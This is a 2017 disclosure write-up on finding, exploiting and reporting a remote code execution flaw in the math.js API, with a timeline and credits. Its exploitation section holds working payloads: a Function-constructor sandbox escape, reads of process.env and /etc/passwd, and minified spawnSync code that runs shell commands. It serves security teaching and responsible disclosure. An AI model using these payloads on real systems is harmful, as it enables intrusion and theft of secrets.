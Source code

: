 How we exploited a remote code execution vulnerability in math.js
====

This article explains in short how we found, exploited and reported a remote code execution (RCE) vulnerability. It is meant to be a guide to finding vulnerabilities, as well as reporting them in a responsible manner.

## Step one: discovery
While playing around with [a wrapper](https://github.com/LucentW/s-uzzbot/blob/master/plugins/calculator.lua) of the math.js API (`http://api.mathjs.org/v1/?expr=expression-here`), we discovered that it **appears to evaluate JavaScript**, though with some restrictions:

```
> !calc cos
Result: function

> !calc eval
Result: function

> !calc eval("x => x")
Error: Value expected (char 3)

> !calc eval("console.log")
Error: Undefined symbol console

> !calc eval("return 1")
Result: 1
```

In particular, it seems that `eval` was replaced with a safe version. `Function` and `setTimeout`/`setInterval` didn't work, either:

```
> !calc Function("return 1")
Error: Undefined symbol Function

> !calc setTimeout
Error: Undefined symbol Function
```

## Step two: exploitation

>Now that we figured out that there are some sort of restrictions around code evaluation, we had to escape them.

There are four standard ways to **evaluate strings in JavaScript**:

  - [`eval("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
  - [`new Function("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function)
  - [`setTimeout("code", timeout)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout)
  - [`setInterval("code", interval)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setInterval)

In the math.js environment, these cannot be accessed directly, either because they aren't defined or because they have been redefined with safe functions. However, they can be accessed indirectly: notably, **`Function` can be accessed indirectly as the constructor of an existing function** - this was the key intuition that led to discovering the vulnerability.

>For example, `Function("return 1")` can be replaced with `Math.floor.constructor("return 1")`. Therefore, to evaluate `return 1`, we can use `Math.floor.constructor("return 1")()`.

We know that in the math.js environment `cos` is defined as a function, so we used that:

```
> !calc cos.constructor("return 1")()
Result: 1
```

Success!

From here we could have simply `require`-d some native modules and gained access to the OS, right? Not so fast: although the math.js API server runs in a Node.js environment, for whatever reason we couldn't use `require`.

```
> !calc cos.constructor("return require")()
Error: require is not defined
```

However, we could use `process`, which has [a few nifty features](https://nodejs.org/api/process.html):

```
> !calc cos.constructor("return process")()
Result: [object process]

> !calc cos.constructor("return process.env")()
Result: {
  "WEB_MEMORY": "512",
  "MEMORY_AVAILABLE": "512",
  "NEW_RELIC_LOG": "stdout",
  "NEW_RELIC_LICENSE_KEY": "<censored>",
  "DYNO": "web.1",
  "PAPERTRAIL_API_TOKEN": "<censored>",
  "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin",
  "WEB_CONCURRENCY": "1",
  "PWD": "/app",
  "NODE_ENV": "production",
  "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]",
  "SHLVL": "1",
  "HOME": "/app",
  "PORT": "<censored>",
  "NODE_HOME": "/app/.heroku/node",
  "_": "/app/.heroku/node/bin/node"
}
```

Though `process.env` contains some bits of juicy info, it can't really do anything interesting: we need to go deeper and use [`process.binding`](http://stackoverflow.com/q/24042861), which exposes Javascript bindings to the OS. Though they are not officially documented and are meant for internal usage, one can reconstruct their behaviour from reading through the Node.js source code. For example, we can use `process.binding("fs")` to read arbitrary files on the OS (with the appropriate permissions):

>For brevity, we'll skip the `!calc cos.constructor("code")` wrapper, and paste the relevant JS code instead.

```
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<more users...>
```

We're almost done: now we need to figure out a way to open a shell and run arbitrary commands. If you have experience with Node.js, you may know about [`child_process`](https://nodejs.org/api/child_process.html), which can be used to spawn processes with `spawnSync`: we just need to replicate this feature using OS bindings (remember that we can't use `require`).

This is easier than it seems: you can just take [the source code for `child_process`](https://github.com/nodejs/node/blob/master/lib/child_process.js), remove the code you don't need (unused functions and error handling), minify it, and run it through the API.

<script src="https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822.js"></script>
<noscript>
```
// Source: https://github.com/nodejs/node/blob/master/lib/child_process.js

// Defines spawn_sync and normalizeSpawnArguments (without error handling). These are internal variables.
spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}

// Defines spawnSync, the function that will do the actual spawning
spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}
```
<small>Gist [here](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822</small>
</noscript>

From here, **we can spawn arbitrary processes** and run shell commands:

```
> return spawnSync('/usr/bin/whoami');
{
  "status": 0,
  "signal": null,
  "output": [null, u15104, ],
  "pid": 100,
  "stdout": u15104,
  "stderr":
}
```

## Step three: reporting

Now that we found a vulnerability and exploited it to the largest extent possible, we had to decide what to do with it. Since we exploited it for fun and have no malicious intents, we took the "white hat" road and reported it to the maintainer. We **contacted him privately** through the e-mail address listed on his GitHub profile with the following details:

 - a short description of the vulnerability (a remote code execution flaw in mathjs.eval);
 - an **example attack** with explanation of how it works (a summary of why `cos.constructor("code")()` works and what can be achieved with `process.bindings`);
 - an actual **demonstration** on the live server (we included the output of `whoami` and `uname -a`);
 - suggestions on **how to fix it** (using the [`vm` module in Node.js](https://nodejs.org/api/vm.html), for example).

Over a course of two days, we worked with the author to help fix the vulnerability. Notably, after he pushed a fix in [`2f45600`](https://github.com/josdejong/mathjs/commit/2f456009056bc332673f45ca143d4d92c8c7b159) we found a similar workaround (if you can't use the constructor directly, use `cos.constructor.apply(null, "code")()`) which was fixed in [`3c3517d`](https://github.com/josdejong/mathjs/commit/3c3517daa6412457826b79b60368d8e8e415a7dd).

### Timeline
 - 26 March 2017 22:20 CEST: first successful exploitation
 - 29 March 2017 14:43 CEST: vulnerability reported to the author
 - 31 March 2017 12:35 CEST: second vulnerability (`.apply`) reported
 - 31 March 2017 13:52 CEST: both vulnerabilities are fixed

---

>This vulnerability was discovered by [\@CapacitorSet](https://github.com/CapacitorSet) and [\@denysvitali](https://github.com/denysvitali). Thanks to [\@josdejong](https://github.com/josdejong/) for promptly fixing the vulnerability and [JSFuck](http://www.jsfuck.com/) for discovering the `[].filter.constructor` trick.
>
><small>Released under [**CC-BY 4.0**](https://creativecommons.org/licenses/by/4.0/).